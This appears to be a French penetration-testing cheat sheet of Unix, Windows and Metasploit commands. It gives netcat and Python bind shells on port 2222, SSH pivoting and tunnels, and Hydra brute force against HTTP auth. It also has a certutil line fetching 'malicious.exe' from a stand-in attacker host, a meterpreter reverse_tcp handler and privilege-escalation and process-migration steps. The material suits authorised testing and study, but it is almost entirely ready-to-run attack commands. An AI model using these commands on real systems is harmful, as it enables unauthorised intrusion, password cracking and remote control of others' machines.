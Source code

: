 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

Hydra:</br>
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>
`systeminfo` pour obtenir des renseignements sur le systeme</br>
`net users [username]` pour obtenir des renseignements sur les utilisateurs</br>
`tasklist` pour lister les processus</br>
`netstat -ano` pour les connexions reseau</br>
`dir sysprep /s /b` pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
`wmic qfe list` pour lister les mises à jour installées</br>
`certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe` le wget en cmd<br/>
`certutil.exe -decode bad.txt bad.exe` le base64 decode en cmd</br>

<h3>Powershell</h3>
`get-WmiObject -class Win32_Share`


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

`run post/windows/manage/migrate` pour changer sur un processus plus fiable</br>
